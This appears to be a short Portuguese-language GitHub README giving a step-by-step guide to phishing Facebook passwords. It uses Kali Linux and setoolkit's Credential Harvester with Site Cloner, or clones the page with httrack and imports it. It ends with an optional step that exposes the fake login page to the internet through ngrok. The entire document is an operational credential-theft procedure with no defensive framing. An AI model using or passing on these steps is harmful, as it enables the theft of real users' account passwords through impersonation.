


# Phishing para captura de senhas do Facebook

### Ferramentas

- Kali Linux
- setoolkit
- httrack (Alternativo)
- ngrok (Opcional)

### Configurando o Phishing no Kali Linux

- Acesso root: ``` sudo su ```
- Iniciando o setoolkit: ``` setoolkit ```
- Tipo de ataque: ``` Social-Engineering Attacks ```
- Vetor de ataque: ``` Web Site Attack Vectors ```
- Método de ataque: ```Credential Harvester Attack Method ```
- Método de ataque: ``` Site Cloner ```
- Obtendo o endereço da máquina: ``` ifconfig ```
- URL para clone: http://www.facebook.com

### Método alternativo

- Acesso root: ``` sudo su ```
- Baixando httrack: ```apt install httrack```
- Clonando a página: ```httrack https://www.facebook.com -O /home/user/directory/facebook ```
- Iniciando o setoolkit: ``` setoolkit ```
- Tipo de ataque: ``` Social-Engineering Attacks ```
- Vetor de ataque: ``` Web Site Attack Vectors ```
- Método de ataque: ```Credential Harvester Attack Method ```
- Método de ataque: ``` Cloner Import ```
- ```Press Enter```
- Passando o caminho: ``` /home/user/directory/facebook/m.facebook.com/```
- Site clonado: ```m.facebook.com```
- Obtendo o endereço da máquina: ``` ifconfig ```
- Acessar utilizando ```ip.do.host:porta_host```

### Resutados



### Opcional

- Instalando ngrok: ```https://ngrok.com/download```
- Seguir os processos de criação de conta e autenticação no site do ngrok.
- Liberando link na internet: ```"ngrok http ip.do.host:porta_host```

### Resutados


